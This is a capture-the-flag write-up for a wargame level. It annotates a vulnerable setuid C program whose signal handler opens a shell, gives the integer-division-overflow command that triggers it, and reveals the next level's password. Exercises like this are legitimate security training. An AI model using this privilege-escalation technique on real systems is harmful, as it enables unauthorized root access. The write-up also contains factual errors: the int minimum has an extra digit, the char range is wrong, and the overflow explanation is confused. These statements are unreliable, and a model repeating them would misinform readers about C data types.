 #Level02

12/25/15

Checking out the files in the directory levels there are 4 files relating to level 2.

````
level02
level02_alt
level02.c
level02_alt.c
```
Running level02 we are granted with the phrase 
````
"source code is available in level02.c"
````
So we use vim to view the source code of level02.c to analyze what is happening. 
````c
  1 //a little fun brought to you by bla
  2
  3 #include <stdio.h>
  4 #include <stdlib.h>
  5 #include <signal.h>
  6 #include <unistd.h>
  7
  8 void catcher(int a)                                   <------ So this is where we want to be
  9 {
 10         setresuid(geteuid(),geteuid(),geteuid());
 11     printf("WIN!\n");
 12         system("/bin/sh");
 13         exit(0);
 14 }
 15
 16 int main(int argc, char **argv)                         <------- Begining of main statement. Looking input for an int and char as inputs.
 17 {
 18     puts("source code is available in level02.c\n");    <-------- Prints this when ran
 19
 20         if (argc != 3 || !atoi(argv[2]))        <------ argc has to  not be 3 or not be able to convert an array to an int from argv
 21                 return 1;                       <------ return if either is true not allowing us to to get to the part that matters
 22         signal(SIGFPE, catcher);                <------ signal reports a fatal arithmetic error which results on the catcher to be used.
 23         return abs(atoi(argv[1])) / atoi(argv[2]); <--- If an error is returned here then catcher is signaled.
 24 }
 25
`````
So essentially we need to figure out how to break the function.
A little search about the limitation of datatypes in C shows us the ranges of an Int and a Char

* A int stores data from -21474836478 to 2147483647.
* A char stores data from -127 to 128.

So in order to make the arithmetic on line 23 of level02.c We need to run it with the following arguments.
```
./level02 -21473836478 -1
```
On line 23 the following happens:
```
(-21473836478)/(-1) = 21473836478
```
But wait, what is the limitation of the integer? -21474836478 to 2147483647! 21473836478 is outside the limit of an Int Value causing the catcher to trigger.

Success! 

Using cat /home/level3/.pass we are granted with level3 access with password ~~OlhCmdZKbuzqngfz~~
